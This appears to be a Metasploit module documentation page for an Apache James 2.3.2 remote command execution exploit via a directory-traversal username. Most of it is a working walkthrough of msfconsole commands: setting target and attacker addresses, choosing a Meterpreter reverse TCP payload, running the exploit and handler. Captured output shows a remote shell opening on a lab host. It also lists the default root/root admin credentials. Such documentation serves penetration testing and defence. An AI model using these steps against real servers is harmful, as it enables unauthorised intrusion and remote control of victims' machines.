 ## Vulnerable Application  
  This module exploits a vulnerability that exists due to a lack of input validation when creating a user in Apache James 2.3.2. By creating a user with a directory traversal payload as the username, commands can be written to a given directory. Instructions for installing the vulnerable application for testing can be found here:  
  https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf  
  
## Verification Steps  
  1. Load the module:  
```
  msf5 > use exploit/linux/smtp/apache_james_exec  
```

  2. Set remote and local options:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set target 1  
  target => 1  
  msf5 exploit(linux/smtp/apache_james_exec) > set rhosts 192.168.224.164  
  rhosts => 192.168.224.164  
  msf5 exploit(linux/smtp/apache_james_exec) > set rport 25  
  rport => 25  

  msf5 exploit(linux/smtp/apache_james_exec) > set lhost 192.168.224.167  
  lhost => 192.168.224.167  
  msf5 exploit(linux/smtp/apache_james_exec) > set lport 4444  
  lport => 4444  
```

  3. Set payload:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
```

  4. Check version and run exploit:  
```
  msf5 exploit(linux/smtp/apache_james_exec) > check  
  [*] 192.168.224.164:25 - The target appears to be vulnerable.  
  msf5 exploit(linux/smtp/apache_james_exec) > exploit  

  [*] 192.168.224.164:25 - Command Stager progress - 100.00% done (812/812 bytes)  
```

  5. Set up and run listener (Can be done before running exploit):  
```
  msf5 exploit(linux/smtp/apache_james_exec) > use exploit/multi/handler  
  msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp  
  payload => linux/x64/meterpreter/reverse_tcp  
  msf5 exploit(multi/handler) > set lport 4444  
  lport => 4444  
  msf5 exploit(multi/handler) > set lhost 192.168.224.167  
  lhost => 192.168.224.167    

  msf5 exploit(multi/handler) > run  

  [*] Started reverse TCP handler on 192.168.224.167:4444  
  [*] Sending stage (3021284 bytes) to 192.168.224.164  
  [*] Meterpreter session 1 opened (192.168.224.167:4444 -> 192.168.224.164:34752) at 2020-01-18 18:25:14 -0800  

  meterpreter >  
```

## Options  
  **USERNAME:**  The administrator username for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **PASSWORD:**  The administrator password for Apache James 2.3.2 remote administration tool. By default this is 'root'.  
  **ADMINPORT:**  The port for Apache James 2.3.2 remote administration tool. By default this is '4555'.  
  **RHOSTS:**  The IP address of the vulnerable server.  
  **RPORT:**  The port number of the SMTP service.  

## Targets
```
  Id  Name 
  --  ----
  0   Linux x86  
  1   Linux x64  
```

## References  
  1. <https://www.exploit-db.com/exploits/35513>  
  2. <https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf>
